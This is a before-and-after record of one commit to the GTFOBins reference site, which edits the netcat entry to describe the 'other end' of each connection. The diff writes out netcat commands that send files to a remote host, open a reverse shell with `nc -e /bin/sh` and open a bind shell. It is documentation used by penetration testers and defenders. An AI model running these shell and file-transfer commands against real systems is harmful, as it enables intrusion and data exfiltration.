

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nc.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1008 px from its top, so only the background shows below that.

Commit message:
Add nc and bash other end commands

```diff
--- a/_gtfobins/nc.md
+++ b/_gtfobins/nc.md
@@ -1,25 +1,28 @@
 ---
 functions:
   upload:
-    - description: Serve a file on a TCP port.
+    - description: |
+        Send a file to a TCP port. Run `nc -l -p 8000 > "where_to_save"` to collect the file on the other end.
       code: |
         RHOST=10.0.0.1
         RPORT=8000
         LFILE=file_to_send
         nc $RHOST $RPORT < "$LFILE"
   download:
-    - description: Fetch remote file from a remote TCP port.
+    - description: Fetch remote file from a remote TCP port. Run `nc 10.0.0.2 8000 < "file_to_send"` to send the file from the other end.
       code: |-
         LPORT=8000
-        LFILE=file_to_get
+        LFILE=where_to_save
         nc -l -p $LPORT > "$LFILE"
   reverse-shell:
-    - code: |
+    - description: Run `nc -l -p 8000` to receive the shell on the other end.
+      code: |
         RHOST=10.0.0.1
         RPORT=8000
         nc -e /bin/sh $RHOST $RPORT
   bind-shell:
-    - code: |
+    - description: Run `nc 10.0.0.2 8000` to connect to the shell on the other end.
+      code: |
         LPORT=8000
-        nc -lp $LPORT -e /bin/sh
+        nc -l -p $LPORT -e /bin/sh
 ---
```
Also changed, not shown: _gtfobins/bash.md (+7 -6 lines).
